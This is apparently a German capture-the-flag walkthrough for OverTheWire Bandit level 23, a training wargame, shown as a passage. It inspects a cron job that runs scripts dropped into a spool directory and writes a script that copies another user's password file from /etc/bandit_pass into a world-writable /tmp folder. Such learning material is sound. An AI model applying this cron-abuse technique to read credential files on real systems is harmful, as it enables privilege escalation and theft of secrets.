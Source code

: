 Sehen wir uns zuerst wieder die Cronjobs an.

```shell
bandit23@bandit:~$ ls /etc/cron.d
cronjob_bandit22 cronjob_bandit23 cronjob_bandit24 popularity-contest

bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
```

```shell
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh 
#!/bin/bash

myname=$(whoami)
cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
if [ "$i" != "." -a "$i" != ".." ];
then
echo "Handling $i"
timeout -s 9 60 ./$i
rm -f ./$i
fi
done
```

Das Skript führt also alle Skripts in **/var/spool/bandit24** aus und löscht diese danach. Erstellen wir uns unter **tmp** ein neuen Verzeichnis, in welchem wir uns ein Skript erstellen können.

```shell
bandit23@bandit:~$ mkdir /tmp/script
bandit23@bandit:~$ cd /tmp/script
```

Mit **vi givemepass.sh** erstellen wir die Bash-Datei **givemepass.sh** und öffnen diese in dem Texteditor [vi](https://de.wikipedia.org/wiki/Vi).

```shell
bandit23@bandit:/tmp/script$ vi givemepass.sh

#!/bin/bash
cat /etc/bandit_pass/bandit24 >> /tmp/script/pass
```

Unser Skript liest den Inhalt der Datei **/etc/bandit_pass/bandit24** aus und sendet diesen an die Datei **/tmp/script/pass**. Jetzt müssen wir noch die Zugriffsrechte unseres Skripts ändern, damit dieses auch vom Skript von **bandit24** ausgeführt werden kann. Außerdem ändern wir auch noch die Zugriffsrechte des von uns erstellten Verzeichnisses **/tmp/script**, damit **bandit24** auch die Rechte hat dort die Datei **pass** zu erstellen.

```shell
bandit23@bandit:/tmp/script$ chmod 777 givemepass.sh 
bandit23@bandit:/tmp/script$ chmod 777 /tmp/script
```
